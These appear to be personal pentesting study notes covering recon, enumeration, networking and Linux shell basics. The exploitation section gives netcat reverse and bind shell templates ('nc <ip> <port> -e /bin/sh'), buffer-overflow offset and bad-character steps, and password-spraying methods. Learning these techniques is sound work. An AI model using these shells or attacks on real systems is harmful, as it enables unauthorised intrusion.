

Bug Bounty
Bugcrowd
HackerOne
Pentesting
Reconnaisance
Information gathering about the target (active and passive)
Target Validation
WHOIS
nslookup
dnsrecon
Subdomains
Find subdomains:
- Google Fu(Dorking): Using google syntax to narrow down pages or using pre built resources
- dig
- nmap
- sublist3r
- bluto
- crt.sh
special tool: OWASP AMASS (check out later)
once having a list of subdomains, use http probe to check which are alive abd accessible (check out later)
Crt
Crt.sh
can be used to find sub and sub-sub domains
uses signature based certificate search to find all the certificates relating to that doamin
Sublist3r
Cli tool for Domain listing
command: sublist3r -d chennai.vit.ac.in -t 100
Fingerprinting
Fingerprinting a website, i.e finding all the specifics of that website such as Technologies and ports
- nmap
- wappalyzer: firefox extension like shodan to get web technologies
- whatweb: CLI tool to quickly get technologies and info about a website. [whatweb vit.ac.in]
- builtwith: an online tool that can pull detail about all the technologies a web app is running
- netcat
- BurpSuite
Data breaches
Breachparse, HaveIbeenpwned, Weleakinfo
Email
Finding email addresses for people from a specific organisation:
- hunter.io (vit account, name=astral boy, number=95400....)
- phonebook.cz(intelx login: oscar)
Active
Interacting with the target, direct scanning and enumeration
finding ports, services and their versions
can use rapid7, exploit db and searchsploit to find payloads for potentially vulnurable services if any
directory enumeration
Find carious directories/files/pages on the given domain
tools:
dirbuster
dirb
gobuster
SMB Enumeration
Samba protocol (file share) - port 445
metasploit can be used to get version info and enumerate (msfconsole, use auxiliary/scanner/smb/smb_version)
smbclient can be used to connect to machine [smbclient -L \\\\<ip>\\]
SSH Enumeration
Secure shell (port 22)
How to connect to a machie when you don't have keys
ssh <ip>
ssh <ip> -oKexAlgorithms=+<algorithm>
ssh <ip> -oKexAlgorithms=+<algorithm> -c <cipher>
Tools
Nikto
CLI Web application vulnerability scanner (aggressive)
command: nikto -h(host) vit.ac.in
Scans the website for ports, headers, service versions, potential vulnerabilities and dirbusting.
is really aggressive and can be identified and blocked by website, firewall and even web browser
Nessus
Nmap
nmap -T4 -p- -A -v <ip>
Dirbuster
automatic script to send requests to a web domain using wordlists to discover various files and pages hosted (GUI)
as it sends 100s of requests spontaneously, it is ratelimited and thus starts crashing as requests are dropped by server
Results:
Exploitation
Shell Connections
Shell connections can be made using various tools to open and connect to a port, ex: netcat
1)Reverse Shells: Open a port in target machine and have it connect to us, this is preferred since firewalls don't really block outgoing connections.
ex: Attacker side= nc -lvp(open port and listen to connections) <port>(port number to open),
Target machine=nc <ip> <port> -e(execute) /bin/sh (to execute shell on target machine once connection established, i.e get a shell access of target machine on attack machine)
2)Bind Shell: Attacker connects to the machine, hence has to bypass firewall also.
ex: Attacker= nc <ip> <port> (connect to target machine),
Target Machine= nc -lvp <port> -e /bin/sh (open port, listen for connections and execute shell over that connection once established)
Password Cracking
Bruteforcing
Hydra Can be used
Dictionary
Burpsuite can be used for web based login cracking
- Credential Stuffing: Using known leaked usernames and passwords to check if they work
- Password spraying: using Probable passwords with all the known accounts to check if they work
Tools
Burpsuite
Metasploit
Hydra
Buffer Overflow
Overriding Buffer space in stack to reach the eip(instruction pointer) and include malicious code
Note: Vuln server and immunity debugger are used in windows for the following steps
Spiking
Spiking: Find vulnerable commands over a network
Command: generic_send_tcp (tries to find vulnerable applications over a tcp connection by overflowing using a spike script)
spike script: it will follow the script once connection is established to actually navigate over the application, once we get to the required command to check, keep variable 0 to start bruteforcing (ig is determined by skipvar and skipstr parameters, not sure though)
Script:
s_readline(); [press enter/go to next line]
s_string("[command to send]"); [send string and press enter]
s_string_variable("0"); [in this place every random string will be sent to attempt buffer overflow]
Once the vulnerable command is found we can do fuzzing, i.e try to get detailed evaluation of the command, where it crashes, etc.
A simple python script can be used to determine buffer size and command tolerance
finding offset
pattern create: creates a pattern of sudo random characters of given length, we can then use this patter to overflow the buffer and based on the values written in eip it will give us it's offset.
command “/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [size of stack/approx bytes to overwrite eip found from spiking]”
can use python to send it over the network
Valuess overwritten with specific bytes:
pattern offset: uses the found values to find the byte offset for eip or basically anything
command “/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [size of stack/approx bytes to overwrite eip found from spiking] -q [found values in eip]”
therefore the eip offset is 2003 bytes.
Overwriting eip
now we know the offset (ex: 2003)
we can send code as “A”*2003 + “B”*4 if we want B to overwrite the 4 bytes of eip
Badcharacters : These are hex characters with special meanings attached to them by the program
hence we cannot use them in our shell code as they will be parsed and the program will act on them first replacing them and hence breaking our shellcode.
We can check for bad chars by sending them to the program after the eip and seeing if they get parsed in the hexdump
Sending:
Hex dump:
Special/bad characters like 04,28,29 etc were parsed by the proggram for special instructions
neutral/ non special random character (B0) was replaced in it's place
for sequence of 2 chracters, ex: 04,05 only the first one is bad
now we can write the shellcode without utilizing any of these characters so it doesn't break. like the above code was changed while parsing
Networking
OSI Model
- P= Physical- data cables, cat 6
- D= Data- Switching, Mac Addresss
- N= Network- IP addresses, routing
- T= Transport- TCP/UDP
- S= Session- Session management
- P= Presentation- WMV,JPEG,MOV
- A= Application- HTTP, SMTP
Please Do Not Throw Sausage Pizza Away
Subnetting
Allows number of hosts for a network by locking in the static and dynamic bits
Structure of netmask:
same structure as ip address (octals), but the bits can only be turned on in order.
The turned on bits are fixed and cannot be changed by any nic or networking device, ex: wifi devices cannot be assigned to these addresses/ any protocol cannot modify these values.
for ex: a wifi base address with 192.168.232.0 and netmask 255.255.255.0 signifies the first 24 bits are turned on( all 255) hence when assigning ip address, these cannot be changed. i.e 192.168.232 are fixed values and cannot be changed by router or anything.
hence the effective address that can be allocated to devices on the network are 192.168.232.0-255 i.e 256 hosts (2^8 as the last 8 bits are left unset and these places can be used) hence 254 devices can be connected to this network (first and last address are reserved for network id and broadcast)
since the first 24 bits are set, the address and the subnet can be represented as: 192.168.232.0/24 where the /24 signifies the number of set bits.
ex: 192.168.0.0/23 signifies only 23 bits are set, i.e: 11111111.11111111.11111110.00000000=255.255.254.0
therefore (2^9) 512 hosts can be accomodated out of which the last decimal can range from 0-255 (2^8 unset bits) and the 2nd last can range 0-1 (2^1 unset bits)
hence possible ip ranges are 192.168.0.0-255, 192.168.1.0-255
Addresses
IP Address
ifconfig
layer3 of osi model (router)
public and private ip addresses exist, translation is done by NAT
ipv4
Decimal notation
1 and 0 put together for human readable format
ex: 192.168.57.139, each number is just decimal representation on a binary octal. ex: 11111111.11111111.11111111.11111111=255.255.255.255 (4*8=32 bits)
approx 4 billion addresses (2^32) , almost all are used up, hence we use NAT
ipv6
hexadecimal notation (128 bits, possible combinations, 2^128)
NAT
Network Address translation
Translates private address to public address since limited number of ipv4 address available
various private address are interfaced to single public address using nat
public addresses are brought by various organisation such as isp
MAC Address
Media access control
physical address: comes with network interface cards(nic) and allows for physical switches to read and transport messages
Layer 2 (switching)
MAc Adddress: first three pairs are identifiers, i.e: 58:6c:25
Protocols
Layer 4 of the OSI model (transport layer)
utilizes ports for communication (65k+ ports)
TCP
Transmission control protocol
connection oriented . ex: http, https, ftp, ssh
Works on 3 way handshake
UDP
User datagram protocol
Connection less, ex: voip,dns
3 way handshake
SYN > SYN ACK> ACK
SYN: Synchronize (initiate connection)
ACK: Acknowledge
Ports
ports-cheatsheet
7 Echo
20, 21 FTP
22 SSH/SCP
23 Telnet
25 SMTP
53 DNS
67, 68 DHCP/BOOTP
69 TFTP
80 HTTP
88 Kerberos
110 POP3
123 NTP
135 MSRPC
137,138,139 NetBIOS
143 IMAP
161 SNMP
194 IRC
389 LDAP
443 HTTPS
445 Microsoft DS SMB
464 Kerberos password settings
547 DHCPv6
596 SMSD
636 LDAP over SSL
1720 H.323
3389 RDP
5060 SIP
5061 SIP over TLS
ARP
Address resolution protocol
SMB and samba
what is samba?
Samba is a *nix(unix,linux etc) implementation of smb (network filesharing protocol)
“Samba runs on Unix platforms, but speaks to Windows clients like a native. It allows a Unix system to move into a Windows “Network Neighbourhood” without causing a stir." ~samba.org
The Samba suite of tools is heavily utilised by Linux SMB enumeration tools such as enum4linux (and its continuation, -ng).
Microsoft SMB Protocol
Net-Bios
NetBIOS is an old (1980s) session layer service that offers an API for communication between applications on a LAN, that predates TCP/IP. It’s not a protocol itself, but an API that leverages other communications protocol (ex: NBT leverages tcp, NBF: IEEE 802.2 LLC, NBX: NetWare's IPX/SPX)
In modern networks, NetBIOS runs over TCP/IP, termed NBT‚Å¥ (or NetBT) and hence allows netbios services over tcp
NetBIOS is used as a fallback for name resolution only when mDNS (firstly), and then LLMNR (secondly) queries fail.
NetBIOS effectively offers backwards compatibility for network devices that predate compatibility with DNS
Netbios services:
- 137- 137- Netbios-ns : name service
- Netbios-dgm: sending and receiving of connectionless, non-sequenced datagrams between hosts (allows to discover smb hosts in the network)
- 139- 139- Netbios-ssn: allows for establishing connections and transfer of data
Netbios-ns
Netbios-ns (137): name service (kinda like dns, resolves netbios names for communication on lan)
The NetBIOS name is usually derived from the computer name, but is limited to 16 octets in length, where the final octet (NetBIOS suffix) designates the type of resource. Thus, NetBIOS names are effectively limited to 15 legal UTF-8 characters. Common suffixes are:
00, Workstation Service; 20, File Service; and 21, Remote Access Service.
in an NBT network (running over TCP/IP) the name service translates NetBIOS names to IP addresses (since host names translate to ip address in IP)
as Netbios is an api, it allows for the user to have the same hostname and communicate over different protocols as it's the job of netbios to translate Netbios name
to specific identifier for the used protocol
NetBIOS names registered by a host can be inspected with nbtstat -n (ü™ü), or enum4linux -n or Nmap‚Äôs nbstat script (üêß).
command: sudo nmap -sU --script nbstat.nse -p<port of sn> <host>
*note: eventhough the machine i am trying has ssn(session) open on 139, nmap still seems to enumerate on 137
gemini indicates that the session maybe running on 139, it can still be utilizing 137 for name resolution as a service port
therefore, in netbios, the session for file transfer is open on 139, but name service still operates on 137 eventhough it may not show up on an nmap scan
Resolving a NetBIOS name is accomplished through either the lmhosts file (think hosts, but for NetBIOS)
In NBT, netbios-ns operates on UDP port 137, sometimes TCP port 137
Netbios-ssn
Session service: allows for communication between netbios applications through establishing connections (hence this port was open)
This is perhaps the most known Windows port of all, as it is used to transfer files over TCP. This is both the port that NULL Sessions are established over and the port that file and printer sharing takes place on
In NBT, netbios-ssn operates on TCP port 139‚Å¥, which is what we commonly see open in an Nmap TCP scan.
MSRPC
MSRPC is Microsoft's implementation of RPC(remote procedure calls)
RPC: are used to call procedures on networked computers (or locally, between processes!).
This way, programmers can implement distributed software as if it was operating on a single machine, without having to worry about the underlying network code.
MSRPC: Communication mechanisms
When an RPC server receives a request, the endpoint may not be known by the client. In this case, the endpoint mapper (EPM) is consulted.
port135: msrpc endpoint mapper service
Working details
Operation
This image was probably created before I was born. Image source: Microsoft Docs [10]1. A process loads an RPC server and registers its universally unique interface ID (IFID) with the RPC runtime¬π¬π. The interface acts as a bridge between client and server; the client must implement the interface, and the server must expose the exact same interface.
- Client code implements the interface — the server IFID is known to the client.
- When the client process executes a method via RPC, the parameters are passed to a stub function, which is called in place of the desired procedure. The stub passes the parameters to a Network Data Representation (NDR) engine for serialisation in a common format. This is necessary as data representation formats might differ between client and server systems.
- The client stub then invokes the RPC runtime library, which transports the serialised data to the server application. This can be achieved via several methods: TCP and UDP, named pipes, or even HTTP. The endpoint is either known (such as a port or named pipe), or the IFID is used to identify it (read on).
- The server RPC runtime accepts the incoming communication and calls the server stub procedure. The stub retrieves the parameters from the network buffer, deserialises the data, and calls the actual procedure.
- The return value (if any), is returned to the client via a similar set of steps.

Endpoint mapper
tools
Netcat
Linux
Bash shell
Shell Variables
Shell variables are used to store information within the shell. This information is
used to modify the behavior of the shell itself or external commands
docs
set
to set and unset shell variables
usage
ex: set -x turns on debugger for the shell, i.e prints each line as executed (+x to unset)
new shells can be called with specific options set
interesting options: noexec, -x , verbose, -C (prevents overwriting files)
PS1
Prompt string
PS1 is (one of) the shell variable responsible for our interaction with the terminal.
ps 0-4 all define various parts of the shell we interact with, ps1 defines the prompt we see, i.e the cosmetics of the the prompt
this appearence is set by ps1 and can be changed similarly
both bash and zsh have different ways of handling this variable
rest PS work with:
bash
bash has it's own syntax for ps1
this can be rewritten and modified
these are stored in bashrc as ps1
zsh
zsh has it's own way of storing and modifying ps1 variable

these text can be modified to change the overall appearence of the prompt
these are saved in zshrc as Prompt
Path
Path is a shell variable that contains comma seperated list of directories

when any command is typed, the specified directories are searched in order, if nothing is found an error can be thrown (the current directory is searched after the path directories)
to add a directory to path: PATH="$PATH:/path/to/add"
Environment variables
When a variable is created, it's available only in the ccurrent shell session (local variable)
A variable can be converted to environment variable hence any program or command connected to that shell session will have access to it.
a local variable can be converted to environment variable using export command (for the current session)
When a variable is converted into an environment variable, all subprocesses
(commands or programs started by the shell) will have this variable set. This is
useful when you want to change the behavior of a process by modifying a key
variable.
command: env (displays environment variables in the current shell)
To unset a variable when executing a command, use the --unset=VAR option
(for example, env --unset=TZ date)
export
convert an existing local variable to an environment variable
If the variable doesn’t already exist, the export command can create it directly as an environment variable
export -p: display all environment variables
Initialisation files
initialization file: A file that is executed when a shell starts in order to customize
the environment for the user.
login shell: the initial shell started when a user logins
Which initialization files are executed depends on whether the shell is a login shell or a non-login shell.
- profile: first file to execute on login, sets enviorment variables and messages etc can be put in this file for all users to execute upon login, executes all .sh files in profile.d that sets up the shell
- bash_profile: the next files are executed from the users home directory, these include (in priority) bash_profile,bash_login,profile(found in kali). bash will look for each of these file and execute the ones
found first, the purpose of these files is to put message and setup for the particular usier logging in.
3)bashrc: found in home directory of each user, each user can put in code they want to be executed each time a shell session is started.
4)bash.bashrc: found in etc, is a systemwide bashrc file that will execute each time a shell session is started by any user, can put code common for all users. it may also call profile.d files
each time for initialisation of the new shell session.
History
“history” command to view history of shell
“!n” to execute nth command from history
history config variables:
.bash_history file stores the history once the current session is closed, another file can be used using HISTFILE variable
size of this file can be limited using HISTFILESIZE variable
subcommands
takes the output of one command and uses it for argument of another (similar to piping ig)
we can use $() in a command to include another command
Globbing (special character)
Use special characters to fill space of actual names
ex:
less
Display large file contents in scrollable format, advanced version of more, also has searching and many advanced functionalities built in
head and tail
head: display top 10 lines of a file
head -n display top n lines
tail: display bottom 10 lines
tail -n display bottom n lines
touch
The touch command has two functions: to create an empty file and to update the
modification and access timestamps of an existing file
nl
“nl” number lines
numbers the lines of output
Find
find [options] starting_point criteria action
The starting_point is the directory where the search will start. The criteria is
what to search for, and the action is what to do with the results.
example: find /home -maxdepth 2 -mount -name "*.pdf" -exec ls -l {} \; -exec file {} \;

Output:


{kind=link}
{kind=link}